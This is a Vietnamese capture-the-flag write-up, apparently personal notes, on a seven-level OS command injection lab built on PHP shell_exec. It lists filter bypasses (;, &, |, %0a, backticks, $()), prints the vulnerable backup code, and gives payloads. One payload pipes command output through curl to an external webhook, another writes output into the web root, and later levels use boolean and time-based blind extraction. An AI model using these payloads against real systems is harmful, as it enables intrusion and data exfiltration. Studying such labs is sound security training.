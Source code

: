 
### Level 1
![[Pasted image 20250525151805.png]]

![[Pasted image 20250525151827.png]]

+ `$target` là untrusted data => chèn thêm dạng `; <lệnh>` sẽ chèn được thêm lệnh vào hàm shell_exec


### Level 2

![[Pasted image 20250525151934.png]]

+ Né dấu `;` thì tao dùng dấu `&` và dấu `|`


### Level 3

![[Pasted image 20250525152026.png]]

+ Né 3 dấu kia, ta sử dụng dấu xuống dòng trong dạng mã ASCII là `%0a`
CÁCH 2 : Lợi dụng việc in log của lệnh dig sẽ in ra kết quả input của người nhập.
=> Ta chỉ cần có output của lệnh ls rồi cho vào lệnh dig thì nó sẽ in ra kqua của lệnh ls ra màn hình
+ Sử dụng ``(backstick) hoặc $() để chèn lệnh ls vào làm input của lệnh dig
### Level 4

```php
<?php
    if(isset($_POST['command'],$_POST['target'])){
        $command = $_POST['command'];
        $target = $_POST['target'];
        switch($command) {
            case "backup":
	     $result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");

                if ($result !== null && strpos($result, "zip error") === false)

                    die("Backup thành công");

                else

                    die("Backup không thành công");

                break;

            // CHANGELOG: Bảo trì

            // case "ping":

            //  $result = shell_exec("timeout 10 ping -c 4 $target 2>&1");

            //  break;

            // case "nslookup":

            //  $result = shell_exec("timeout 10 nslookup $target 2>&1");

            //  break;  

            // case "dig":

            //  $result = shell_exec("timeout 10 dig $target 2>&1");

            //  break;

        }

        die("Một số chức năng đang được bảo trì. Mời bạn nạp tiền để có thể tiếp tục duy trì dự án");

    }

?>
```


+ Không còn filter các dấu ; & | nữa nhưng code không in ra màn hình kết quả của lệnh chạy được mà chỉ in ra Backup thành công hay không
=> Phải tìm cách xem kết quả bằng cách nào đó => ném kết quả ra 1 server bên ngoài bằng lệnh curl
=> Dùng webhook để bắt gói tin
`curl -d @<đường dẫn file> <url của server muốn gửi tới>`
Payload: `; ls | curl --data-binary @-;`
Ở đây ta sẽ lưu kết quả của lệnh vào 1 file và gửi file đó tới webhook(hoặc server nào đó) bằng lệnh curl


### Level 5

+ Giống level 4 nhưng không được bắn ra ngoài internet
+ Payload : `;echo `ls -la` > /var/www/html/check.txt;` bắn ra document root rồi đọc

### Level 6

+ Giống level 5 nhưng không cho quyền ghi nữa
+ Tận dụng việc check tên output có từ `zip error` thì sẽ trả về `Backup không thành công` => Có thể check 1 điều kiện logic bằng câu lệnh if và đưa ra `zip error` nếu sai => Brute-force để đoán flag và tận dụng việc check ra `Back up thành công` để dò.

### Level 7

+ Giống level 6 nhưng không chia 2 luồng đúng/sai nữa mà chỉ luôn in ra `Đã chạy câu lệnh backup`
![[Pasted image 20250527175403.png]]

+ Sử dụng TIME-BASED BLIND để phân biệt đúng sai